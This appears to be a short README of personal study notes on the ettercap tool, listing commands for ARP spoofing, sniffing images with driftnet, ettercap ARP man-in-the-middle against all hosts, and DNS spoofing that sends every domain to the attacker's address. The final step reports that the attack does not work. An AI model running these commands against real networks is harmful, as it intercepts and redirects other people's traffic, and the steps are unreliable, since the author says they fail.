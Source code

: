 # learning ettercap 

**English is not my native language, please excuse typing errors.**

### scan route access point

```shell
traceroute google.com
```

### ARP broken network attacks

```shell
arpspoof -i eth0 -t 192.168.6.101 192.168.6.1
```
### ARP sniff the picture

```shell
driftnet -i eth0 -a -b -d /root/pic
# sniff all host 
ettercap -i eth0 -Tq -M arp:remote /// ///

```
### DNS spofing
- edit the /etc/ettercap/etter.dns file, and insert that(the ip is the kali's address):

```
* A 192.168.1.101
* PTR 192.168.1.101
```
- start the apache/nginx service, and the web environment default path is the `/var/www/html`

```shell
service apache2 start
```
- start the ettercap GUI

```shell
ettercap -G
```
#### scan the host list
- select the eth0 to sniff, scan hosts which in the local network 
- set the router as Target 1, set the target hosts as Target 2
#### config Mitm
- config the Mitm tag
- select the ARP posoning item
- choose the first checkbox which value is "Sniff remote connections"

#### config Plugins 
- slelect the "Manage the plugins" item
- doubble click the "dns\_spoof" to active it
#### start spoof
- select the "Start sniffing" item which under the Start tag
#### test the target host
- It's can't work.
